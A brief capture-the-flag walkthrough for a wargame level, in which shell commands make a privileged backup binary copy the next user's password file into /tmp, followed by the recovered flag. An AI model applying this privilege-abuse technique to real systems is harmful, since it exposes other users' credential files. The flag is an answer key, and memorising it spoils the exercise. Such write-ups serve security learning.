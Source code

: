 ## Level08
## Source Code
![level08.png](level08.png)
## Walkthrough
- The binary creates a backup file where it will write the content of argv[1]
- We need to do that in a path where with have the rights.
## Answer
    cd /tmp
    mkdir backups
    touch backups/.log
    chmod 777 backups/.log
    mkdir -p home/users/level09
    /home/users/level08/level08 ../home/users/level09/.pass
    cat home/users/level09/.pass
## Flag

	fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
